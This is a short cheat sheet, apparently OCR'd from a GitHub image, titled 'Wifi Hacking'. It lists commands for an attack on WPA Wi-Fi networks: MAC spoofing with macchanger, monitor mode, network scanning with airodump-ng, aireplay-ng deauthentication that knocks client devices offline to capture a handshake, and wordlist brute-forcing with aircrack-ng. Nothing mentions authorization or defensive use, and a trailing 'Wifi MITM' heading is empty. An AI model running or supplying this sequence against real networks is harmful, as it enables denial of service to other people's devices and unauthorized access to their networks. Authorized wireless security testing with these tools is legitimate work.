 # Wifi Hacking

1. Change wlan mac address  
   `ifconfig wlan0 down` - down wifi card  
   `macchanger -r wlan0` - change mac address for wlan0  
   `iwconfig` - check mode (must be monitor mode)
   `airmon-ng check kill` - if any process use wlan0 they will be kill
   `iwconfig wlan0 mode monitor` - change to monitor mode  
   `airmon-ng start wlan0` - change to monitor mode (alternative to iwconfig)

2.  `airodump-ng wlan0` - check SSID around pc  ( only checks 2.4 GHz band so if you want to see also 5 GHz band, add `-band abg`)  
   If you see many 'not associated' in BSSID column maybe any problem with NetworkManager so restart it and check again SSID
   Get BSSID and CH info for next step

 3.  `airodump-ng -c <CH> --bssid <BSSID> wlan0` - check connections device (stations) to wifi
 
 4.  `aireplay-ng -0 10 -a <BSSID> -c <STATION> wlan0` - DOS attach to any STATION device drop from  BSSID (wifi) (this is for catch handshake) (`-0` == `--deauth`, `10` is packet number)

 5.  `airodump-ng -c <CH> --bssid <BSSID> wlan0 -w <wpahash_file_name>` - Listen wifi device to catch handshake

 6.  `aircrack-ng -w <wordlist_file> <wpahash_file>` - brute-force to wpahash


## Wifi MITM


